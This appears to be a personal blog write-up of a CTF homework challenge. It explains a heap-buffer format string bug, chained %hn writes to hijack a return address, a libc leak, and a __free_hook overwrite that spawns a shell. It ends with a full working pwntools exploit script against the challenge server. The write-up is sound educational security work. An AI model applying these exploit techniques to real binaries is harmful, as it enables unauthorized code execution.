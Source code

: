 ```yaml
---
title: "Homework 10a Writeup (without giveup())"
math: true
date: 2023-12-18T00:00:00-00:00
---
```


![bruh](/hw10a/image-1.png)

## A Quick Look 
![Alt text](/hw10a/image-2.png)

Sums up every CTF challenge so far ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatgooglytrash.png)

As a rule of thumb we will run `checksec` on the binary:

![Alt text](/hw10a/image-6.png)

Looks scary ![emoji](https://blob.cat/emoji/custom/blobcats/ablobcatsweatsiphard.gif)

The vulnerability could be easily found in the source code if you're using the `clangd` lauguage server in your editor:

![Alt text](/hw10a/image-4.png)

It reads the "name of the snack" into a buffer [in the heap]{.spoiler} then `printf`s it as the format string itself. It appears to be an easy format string attack challenge. We will try some generic payloads:

![Alt text](/hw10a/image-5.png)

Looks like we got some addresses on the stack to bypass ASLR ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). Now we have to figure out how to do our abritrary write, so that we can overwrite the GOT entry of a libc function with the address of `system()`.


## Where did my payload go ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatsob.png)

Let's run it on `gdb` and see what the stack looks like when we enter our payload:

![Alt text](/hw10a/image-7.png)

The text we entered is nowhere to be found on the stack. But we can see a pointer to our payload `AAAA...` on the **heap**.  If we look back at the source code, we can see that the `buffer` string is allocated on the heap using `malloc()`.

But in order to execute an abritrary write using format strings (and the `%n` format specifier), the address to be written is specified at an argument, meaning it must also be on the stack. If we tried use `fmtstr_payload()` from pwntools, it will just write to the location pointed by some pointers on the stack.

How about the `name` buffer at the start of the program? Can we put the target addresses into it? It is indeed stored on the stack, but **before** we can leak our address from the buffer to bypass ASLR. If we manage to modify it *after* we leak the address, then we could do the abritrary write. But how?

Is there a good way to return to the `ctf_simulator` function, without calling `giveup()`? Well, to *control the flow*, we could only overwrite either a GOT entry, or the return address of the function at `rbp+1`. Back to square one ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatangery.png)


## Chaining the overwrites

A trick I learned from [the MIPS ROP challenge](/hkcert#mips-rop-gldanoob) is to make use of the existing values on the stack which are deterministic. In this case it means we can utilize those pointer values to control another value on the stack. For example, the value at `rbp` (`0x7fffffffd650`) refers to the saved `rbp` (`rbp + 0x120`), which points to the base of the previous stack frame. What if we used the format string exploit with the pointer at `rbp`? The value at base of the previous stack frame (which also is a pointer to the stack) get overwritten.

```
[rbp] (8th arg)  -> rbp + 0x120
...
(Stack frame of ctf_simulator())
...
[rbp + 0x120]     -> 0x7fffffffd780
```


Let's try overwriting it with the format specifier `%1c%8$hn` (writing `0x0001` to the address pointed by the 8th argument):

```
[rbp + 0x120] -> 0x7fffffff0001
```

We have another address on the stack, differing from the previous by the lower bytes (first two bytes in memory). What makes it even better is that we can just make it point to `rbp+1`, by just altering those two bytes with `%54872c%10$hn`:

```
[rbp + 0x120] -> 0x7fffffffd658 = rbp + 1
```
(The exact value of `rbp` can be calculated using the leaked stack address from earlier)

Now we have a pointer to the return address (`rbp + 1`) on the stack! Using it as the argument to the format string exploit, we can overwrite the return address with `ctf_simulator` using the same trick:

```
[rbp + 1]     -> ctf_simulator()
...
[rbp + 0x120] -> rbp + 1
```

Now the program will ask us for the team name again once the `get_snack` function exits.

## Full RELRO... or not?

Now that we had our abritary overwrite using the `name` buffer, we can use the leaked address from earlier to calculate the address of the GOT table, 
and leak the address of `puts()` in memory with `%10$s`, thus obtaining the address of `system()`:

![](/hw10a/image-9.png)

However there is a problem: the binary is compiled with full RELRO, meaning the GOT table is read-only. We can't simply overwrite any GOT entry with the address of `system()`. But if we're lucky and the LIBC version on the server is older, there's a chance the LIBC calls a function pointer `__free_hook` (which can be user defined) when freeing chunks on the heap.

We can check the LIBC version using <https://libc.blukat.me/> with our leaked address:

![Alt text](/hw10a/image-8.png)

The LIBC version is older than 2.34, so we can use the `__free_hook` trick and overwrite it with the address of `system()` ![emoji](https://blob.cat/emoji/custom/blobcats/blobcatglowsticks.png). We'll use the `name` buffer again, since the output of `fmtstr_payload()` has to be on the stack.

One last thing is to get `system()` to be called with the argument `/bin/sh`. But since whatever is being freed is also passed to `__free_hook`, which in this case happenes to be `buffer`, we can just put `/bin/sh` as the name of our snack.

## Solution
1. Leak the base address of the binary and the saved RBP
2. Using two format string exploits, overwrite the return address of the `get_snacks()` call with `ctf_simulator`
3. Leak the address of `puts()` by setting `name` to `puts@GOT` and calculate the address of `system()`
4. Return to `ctf_simulator` again, set `__free_hook` to the address of `system()`
5. Enter `/bin/sh` as the name of the snack, wait for `buffer` to be freed and `cat flag.txt`

```py
import sys

from pwn import *  # type: ignore

mode = 'l'
if len(sys.argv) > 1:
    mode = sys.argv[1]

e = ELF('./ctf_sim')
libc = ELF('./libc.so.6')
context.binary = e

if mode == 'r':
    p = connect('chal.firebird.sh', 35048)
else:
    p = process([e.path])


p.sendline(b'AAAAAAAAAAAAAAAAA')


def ret_to_ctf():
    # after leaking rbp and setting e.address

    # rbp $8 -> rbp+0x120 $44 -> rbp+0x130
    # make rbp+0x120 point to return address (rbp+8)
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format((rbp + 8) & 0xffff, 8)
    p.sendlineafter(b'today? ', payload)

    # edit return address to start of ctf_simulator
    p.sendlineafter(b'option: ', b'3')
    payload = '%{}c%{}$hn'.format(e.sym['ctf_simulator'] + 15 & 0xffff, 44)
    p.sendlineafter(b'today? ', payload)


# Leak RBP of ctf_simulator & Return address
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%8$payo%9$pez')
p.recvuntil(b'0x')
rbp = int(p.recvuntil('ayo', drop=True).strip(), 16) - 0x120
ret = int(p.recvuntil('ez', drop=True).strip(), 16)
print('RBP: ', hex(rbp))
print('Return address: ', hex(ret))
# Set the base address of ELF
e.address = ret - e.sym['ctf_simulator'] - 166


ret_to_ctf()
p.pack(e.got['puts'])
p.sendline()

# Leak puts
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', b'%10$sAAAA')
puts = unpack(p.recvuntil('AAAA', drop=True), 'all')
print('PUTS: ', hex(puts))
libc.address = puts - libc.sym['puts']
hook = libc.sym['__free_hook']
print('HOOK: ', hex(hook))


ret_to_ctf()
# Overwrite __free_hook with system
payload = fmtstr_payload(10, {hook: libc.sym['system']})
p.sendline(payload)

p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', payload)
p.sendlineafter(b'option: ', b'3')
p.sendlineafter(b'today? ', '/bin/sh\x00')
p.interactive()
```

